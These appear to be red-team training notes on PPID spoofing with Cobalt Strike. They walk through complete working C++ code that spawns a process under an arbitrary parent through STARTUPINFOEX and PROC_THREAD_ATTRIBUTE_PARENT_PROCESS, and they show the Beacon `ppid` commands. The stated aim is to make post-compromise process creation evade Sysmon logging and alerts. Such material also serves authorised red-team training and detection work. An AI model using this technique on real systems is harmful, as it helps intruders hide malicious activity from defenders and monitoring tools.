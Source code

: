 When using the CreateProcess API, by default, the resulting process will spawn as a child of the caller.  This is why in the previous section we saw rundll32 and notepad spawn as children of PowerShell.  However, the "PPID spoofing" technique allows the caller to change the parent process for the spawned process.  So if our Beacon was running in powershell.exe, we can spawn processes as children of a completely different process, such as explorer.exe.

This will cause applications such as Sysmon to log the process creation under the new parent.  This is especially useful if you have a Beacon running in an unusual process (e.g. from an initial compromise, lateral movement or some other exploit delivery) and process creation events would raise high severity alerts or be blocked outright.

The magic is achieved in the [STARTUPINFOEX](https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexw) struct, which has an **LPPROC_THREAD_ATTRIBUTE_LIST** property.  This allows us to pass additional attributes to the CreateProcess call.  The attributes themselves are listed [here](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute).  For the purpose of PPID spoofing, the one of interest is **PROC_THREAD_ATTRIBUTE_PARENT_PROCESS**.

  The lpValue parameter is a pointer to **a handle to a process** to use instead of the calling process as the parent for the process being created. The process to use must have the PROCESS_CREATE_PROCESS access right.

Before looking at Cobalt Strike, let's do this in code.  I'm going to bring in the target parent PID on the command line for ease of use.  Then initialise the STARTUPINFOEX struct.

#include <iostream>
#include <Windows.h>
#include <winternl.h>

int main(int argc, const char* argv[])
{
	// Get parent process PID from the command line
	DWORD parentPid = atoi(argv[1]);

	// Initialise STARTUPINFOEX
	STARTUPINFOEX sie = { sizeof(sie) };
}

  

The next step is to allocate a region of memory to hold the attribute list, but we need to know the required size first.  The list can have multiple attributes, but as we're only interested in PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, the size is **1**.  So we call InitializeProcThreadAttributeList and provide a NULL destination, but the lpSize variable will become populated with the size we need.  Even though this API returns a bool, this call will always return FALSE.

// Call InitializeProcThreadAttributeList once
// it will return FALSE but populate lpSize
SIZE_T lpSize;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpSize);

  

With that, use malloc to allocate the memory region on the lpAttributeList property of STARTUPINFOEX.  Then we call InitializeProcThreadAttributeList again, but this time, set the correct location.  This time, it should return TRUE.

// Allocate memory for the attribute list on STARTUPINFOEX
sie.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

// Call InitializeProcThreadAttributeList again, it should return TRUE this time
if (!InitializeProcThreadAttributeList(sie.lpAttributeList, 1, 0, &lpSize))
{
	printf("InitializeProcThreadAttributeList failed. Error code: %d.\n", GetLastError());
	return 0;
}

  

Get a handle to the parent process and pass that into a call to UpdateProcThreadAttribute.

// Get the handle to the process to act as the parent
HANDLE hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPid);

// Call UpdateProcThreadAttribute, should return TRUE
if (!UpdateProcThreadAttribute(sie.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL))
{
	printf("UpdateProcThreadAttribute failed. Error code: %d.\n", GetLastError());
	return 0;
}

  

All that's left to do is call CreateProcess, ensuring to pass the EXTENDED_STARTUPINFO_PRESENT flag.

// Call CreateProcess and pass the EXTENDED_STARTUPINFO_PRESENT flag
PROCESS_INFORMATION pi;

if (!CreateProcess(
	L"C:\\Windows\\System32\\notepad.exe",
	NULL,
	0,
	0,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	L"C:\\Windows\\System32",
	&sie.StartupInfo,
	&pi))
{
	printf("CreateProcess failed. Error code: %d.\n", GetLastError());
	return 0;
}

printf("PID created: %d", pi.dwProcessId);
return 1;


![[31. PPID Spoofing.png]]

A well-behaved program will also call DeleteProcThreadAttributeList after the process has been created.

DeleteProcThreadAttributeList(sie.lpAttributeList);

  

Cobalt Strike's `ppid` command can be used to set the parent process for all Beacon post-ex capabilities that spawn a process. Everything from `shell`, `run`, `execute-assembly`, `shspawn` and so on.

As we know, Beacon will use itself as the parent by default.  Running `shell ping`, we can see cmd.exe is spawned as a child of powershell.exe

![[32.  PPID Spoofing.png]]

Use the PPID command to change it to explorer and run `shell ping` again.

beacon> ppid 2704
[*] Tasked beacon to spoof 2704 as parent process

  

cmd.exe is now a child of explorer.

![[33. PPID Spoofing.png]]

To reset the PPID back to the Beacon process, use the `ppid` command without parameters.

beacon> ppid
[*] Tasked beacon to use itself as parent process

